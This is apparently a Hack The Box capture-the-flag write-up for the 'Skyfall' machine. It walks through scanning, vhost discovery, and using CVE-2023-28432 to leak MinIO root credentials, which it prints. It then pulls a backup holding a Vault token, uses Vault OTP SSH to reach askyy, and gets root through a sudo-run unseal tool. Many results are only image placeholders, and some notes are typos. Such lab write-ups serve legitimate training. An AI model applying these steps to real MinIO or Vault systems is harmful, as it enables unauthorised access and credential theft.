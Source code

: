 ```yaml
---
title: HTB-Skyfall
draft: false
tags:
  - htb
  - linux
  - insane
---
```

pic here

## Information Gathering

`rustscan --addresses 10.10.11.254 --range 1-65535`

![alt text](image.png)

`sudo nmap -sVC -p 80 10.10.11.254`

![alt text](image-1.png)

## Enumeration
### HTTP - TCP 80

![alt text](image-2.png)

skyfall.htb

![alt text](image-3.png)

`sudo gobuster vhost --append-domain -u http://skyfall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

![alt text](image-4.png)

### demo.skyfall.htb
guest:guest

![alt text](image-5.png)

![alt text](image-6.png)

MinioMetrics

/metrics

![alt text](image-7.png)

`%0a`

![alt text](image-8.png)

When I scroll down the page, I come across the MinIO endpoint.

`http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster` /etc/hosts

![alt text](image-9.png)


### prd23-s3-backend.skyfall.htb


![alt text](image-10.png)


## Shel as askyy
### CVE-2023-28432


![alt text](image-11.png)

https://github.com/acheiii/CVE-2023-28432/

![alt text](image-12.png)

`POST /minio/bootstrap/v1/verify`

![alt text](image-13.png)

```
MINIO_ROOT_USER:5GrE1B2YGGyZzNHZaIww
MINIO_ROOT_PASSWORD:GkpjkmiVmpFuL2d3oRx0
```

### MinIO Client

**mc**** is a command-line client for **MinIO**, an open-source object storage server compatible with Amazon S3 cloud storage service.



https://min.io/docs/minio/linux/reference/minio-mc.html#id2

![alt text](image-14.png)

`mc alias set myminio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0`

![alt text](image-15.png)

`mc ls myminio`

![alt text](image-16.png)

`mc ls --recursive --versions myminio`

![alt text](image-17.png)

`mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz ~/Documents/htb/skyfall/home_backup.tar.gz`

![alt text](image-18.png)

### Vault

`sudo tar xzvf home_backup.tar.gz`

![alt text](image-19.png)


`.bashrc`

![alt text](image-20.png)

```
exppot
export
```

prd23-vault-internal.skyfall.htb

/etc/hosts

https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords


`wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip`

`export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"`

`export VAULT_TOKEN="blahblah"`


`./vault login`

![alt text](image-21.png)

`./vault token capabilities ssh/roles`

![alt text](image-23.png)

`./vault list ssh/roles`

![alt text](image-24.png)

`./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254`

![alt text](image-22.png)

## Privesc: askyy to root
### Sudoers

`sudo -l`

![alt text](image-25.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml`

![alt text](image-26.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd`

![alt text](image-27.png)

![alt text](image-28.png)

![alt text](image-29.png)

![alt text](image-30.png)



sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd 


### SSH as root

```
exploirt
export
```

![alt text](image-31.png)

`./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254`

![alt text](image-32.png)

## References
- https://github.com/acheiii/CVE-2023-28432/
- https://min.io/docs/minio/linux/reference/minio-mc.html#id2